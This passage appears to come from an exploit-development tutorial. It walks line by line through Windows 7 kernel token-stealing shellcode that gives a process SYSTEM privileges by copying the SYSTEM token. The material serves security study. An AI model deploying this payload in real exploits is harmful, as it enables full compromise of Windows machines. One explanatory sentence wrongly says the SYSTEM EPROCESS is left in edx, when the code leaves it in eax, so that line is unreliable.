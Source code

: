 Let's go through it line by line.

```asm
pushad                               ; Save registers state
```

The first thing we do is save all registers to the stack.  This will be helpful in resuming execution of the kernel after our exploit code returns.

```asm
xor eax, eax                         ; Set ZERO
mov eax, fs:[eax + KTHREAD_OFFSET]   ; Get nt!_KPCR.PcrbData.CurrentThread
                                     ; _KTHREAD is located at FS:[0x124]
```

The `FS` register always points to the current **TIB** ([Thread Information Block](https://en.wikipedia.org/wiki/Win32_Thread_Information_Block)) in 32 bit Windows.  The `TIB` is a large struct that stores information about the currently running thread such as the stack and heap locations, last thrown error, and more.  

The `TIB` also contains a pointer to the current [`KTHREAD`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/ntos/ke/kthread/index.htm) struct, which can be used to find the current process' `EPROCESS` struct.

```asm
mov eax, [eax + EPROCESS_OFFSET]     ; Get nt!_KTHREAD.ApcState.Process
mov ecx, eax                         ; Copy current process 
```

Now we have a pointer to our exploit code's `EPROCESS` struct stored in `ecx`.

Next, we need to find the kernel's `EPROCESS` struct.  This is fairly easy, because Windows stores all `EPROCESS` structs in a circular doubly linked list, and the kernel's PID is always 4.

```asm
mov edx, SYSTEM_PID                  ; WIN 7 SP1 SYSTEM process PID = 0x4

SearchSystemPID:
    mov eax, [eax + FLINK_OFFSET]    ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
    sub eax, FLINK_OFFSET
    cmp [eax + PID_OFFSET], edx      ; Get nt!_EPROCESS.UniqueProcessId
    jne SearchSystemPID
```

When this loop exits, the kernel's `EPROCESS` struct will be in `edx`.

Now, we just replace the pointer to the exploit code's access token with a pointer to the kernel's access token.

```asm
mov edx, [eax + TOKEN_OFFSET]        ; Get SYSTEM process nt!_EPROCESS.Token
mov [ecx + TOKEN_OFFSET], edx        ; Replace target process nt!_EPROCESS.Token
                                     ; with SYSTEM process nt!_EPROCESS.Token
```

And restore all of the registers.

```asm
popad                                ; Restore registers state
```
